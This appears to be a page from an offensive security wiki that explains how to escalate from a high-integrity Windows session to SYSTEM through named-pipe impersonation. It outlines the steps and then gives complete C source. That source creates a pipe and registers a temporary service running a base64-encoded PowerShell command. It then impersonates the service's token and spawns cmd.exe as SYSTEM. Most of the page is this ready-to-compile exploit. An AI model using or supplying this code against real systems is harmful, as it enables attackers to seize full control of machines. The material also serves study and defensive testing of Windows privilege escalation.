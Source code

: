 # From High Integrity to SYSTEM with Name Pipes

**Code flow:**

1. Create a new Pipe
2. Create and start a service that will connect to the created pipe and write something. The service code will execute this encoded PS code: `$pipe = new-object System.IO.Pipes.NamedPipeClientStream("piper"); $pipe.Connect(); $sw = new-object System.IO.StreamWriter($pipe); $sw.WriteLine("Go"); $sw.Dispose();`
3. The service receive the data from the client in the pipe, call ImpersonateNamedPipeClient and waits for the service to finish
4. Finally, uses the token obtained from the service to spawn a new _cmd.exe_

{% hint style="warning" %}
If you don't have enough privileges the exploit may get stucked and never return.
{% endhint %}

```c
#include <windows.h>
#include <time.h>

#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")

#define PIPESRV "PiperSrv"
#define MESSAGE_SIZE 512

int ServiceGo(void) {

    SC_HANDLE scManager;
    SC_HANDLE scService;

    scManager = OpenSCManager(NULL, SERVICES_ACTIVE_DATABASE, SC_MANAGER_ALL_ACCESS);

    if (scManager == NULL) {
        return FALSE;
    }

    // create Piper service
    scService = CreateServiceA(scManager, PIPESRV, PIPESRV, SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
        SERVICE_DEMAND_START, SERVICE_ERROR_NORMAL,
        "C:\\Windows\\\System32\\cmd.exe /rpowershell.exe -EncodedCommand JABwAGkAcABlACAAPQAgAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFAAaQBwAGUAcwAuAE4AYQBtAGUAZABQAGkAcABlAEMAbABpAGUAbgB0AFMAdAByAGUAYQBtACgAIgBwAGkAcABlAHIAIgApADsAIAAkAHAAaQBwAGUALgBDAG8AbgBuAGUAYwB0ACgAKQA7ACAAJABzAHcAIAA9ACAAbgBlAHcALQBvAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AUwB0AHIAZQBhAG0AVwByAGkAdABlAHIAKAAkAHAAaQBwAGUAKQA7ACAAJABzAHcALgBXAHIAaQB0AGUATABpAG4AZQAoACIARwBvACIAKQA7ACAAJABzAHcALgBEAGkAcwBwAG8AcwBlACgAKQA7AA==",
        NULL, NULL, NULL, NULL, NULL);

    if (scService == NULL) {
        //printf("[!] CreateServiceA() failed: [%d]\n", GetLastError());
        return FALSE;
    }

    // launch it
    StartService(scService, 0, NULL);

    // wait a bit and then cleanup
    Sleep(10000);
    DeleteService(scService);

    CloseServiceHandle(scService);
    CloseServiceHandle(scManager);
}

int main() {

    LPCSTR sPipeName = "\\\\.\\pipe\\piper";
    HANDLE hSrvPipe;
    HANDLE th;
    BOOL bPipeConn;
    char pPipeBuf[MESSAGE_SIZE];
    DWORD dBRead = 0;

    HANDLE hImpToken;
    HANDLE hNewToken;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    // open pipe
    hSrvPipe = CreateNamedPipeA(sPipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE | PIPE_WAIT,
        PIPE_UNLIMITED_INSTANCES, 1024, 1024, 0, NULL);

    // create and run service
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)ServiceGo, NULL, 0, 0);

    // wait for the connection from the service
    bPipeConn = ConnectNamedPipe(hSrvPipe, NULL);
    if (bPipeConn) {
        ReadFile(hSrvPipe, &pPipeBuf, MESSAGE_SIZE, &dBRead, NULL);

        // impersonate the service (SYSTEM)
        if (ImpersonateNamedPipeClient(hSrvPipe) == 0) {
            return -1;
        }

        // wait for the service to cleanup
        WaitForSingleObject(th, INFINITE);

        // get a handle to impersonated token
        if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hImpToken)) {
            return -2;
        }

        // create new primary token for new process
        if (!DuplicateTokenEx(hImpToken, TOKEN_ALL_ACCESS, NULL, SecurityDelegation,
            TokenPrimary, &hNewToken)) {
            return -4;
        }

        //Sleep(20000);
        // spawn cmd.exe as full SYSTEM user
        ZeroMemory(&si, sizeof(si));
        si.cb = sizeof(si);
        ZeroMemory(&pi, sizeof(pi));
        if (!CreateProcessWithTokenW(hNewToken, LOGON_NETCREDENTIALS_ONLY, L"cmd.exe", NULL,
            NULL, NULL, NULL, (LPSTARTUPINFOW)&si, &pi)) {
            return -5;
        }

        // revert back to original security context
        RevertToSelf();

    }

    return 0;
}
```

